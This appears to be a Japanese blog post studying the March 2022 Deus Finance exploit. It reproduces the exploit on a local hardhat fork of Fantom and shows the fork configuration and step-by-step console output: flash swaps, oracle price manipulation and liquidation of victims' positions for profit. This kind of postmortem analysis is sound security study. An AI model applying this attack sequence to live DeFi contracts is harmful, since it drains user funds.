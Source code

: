 GitHubにエクスプロイトがあったので、これを読んで見ることにします。

https://github.com/PwnedNoMore/postmortem/blob/main/2022/deus/contracts/Exploit.sol

注意として、このエクスプロイトは2022年の3/15に発生したエクスプロイトになります。

Deus Financeでは、2022年の4/28にもオラクルを操作した問題が再発生しています。

まずはローカルのネットワークでこのエクスプロイトを実行をしてみます。
もともと `hardhat.config.js` に指定されているURLではダメなようなので、`https://rpc.fantom.network/`に変更して動作させます。

```javascript
      forking: {
        url: "https://rpc.fantom.network/",
        blockNumber: 33466613
      }
```

`npx hardhat run scripts/main.js` コマンドを実行すると、以下のような出力が得られます。

```
    [+] (0) before attack
    [+]      my USDC balance: 0
    [+]      my DEI balance: 0
    [+]      spirit USDC reserve: 9713881664165
    [+]      spirit DEI reserve: 9739342685820948870544271
    [+]      the amount of DEI to borrow (spirit): 9739342685820948870544270
    [+]      the amount of DEI to pay back (spirit): 9768648631716097162030362

    [+] (1) flash swap from spirit pool
    [+]      my USDC balance: 0
    [+]      my DEI balance: 9739342685820948870544270
    [+]      sAMM USDC reserve: 24660757275320
    [+]      sAMM DEI reserve: 24772798349205085390700207
    [+]      the amount of DEI to borrow (sAMM): 24772798349205085390700206
    [+]      the amount of DEI to pay back (sAMM): 24775275876792764667166923
    [+]      sAMM LP price: 2000000005487107362736617

    [+] (2) flash swap from sAMM pool
    [+]      my USDC balance: 0
    [+]      my DEI balance: 34512141035026034261244476
    [+]      my LP deposit token balance: 0
    [+]      my LP token balance: 0
    [+]      sAMM LP price: 997733504354413127115105

    [+] (3) liquidate the assets of victims
    [+]      my USDC balance: 0
    [+]      my DEI balance: 27150599219672207566872765
    [+]      my LP deposit token balance: 5230026958164438186
    [+]      my LP token balance: 0

    [+] (4) exit the flash swap from sAMM pool
    [+]      my USDC balance: 0
    [+]      my DEI balance: 2375323342879442899705842
    [+]      my LP deposit token balance: 5230026958164438186
    [+]      my LP token balance: 0

    [+] (5) deposit LP deposit tokens to earn LP tokens
    [+]      my LP deposit token balance: 0
    [+]      my LP token balance: 5230026958164438186

    [+] (6) remove liquidity
    [+]      my USDC balance: 5218173124837
    [+]      my DEI balance: 7617204163068582172512381
    [+]      my LP token balance: 0

    [+] (7) swap USDC to DEI from sAMM pool
```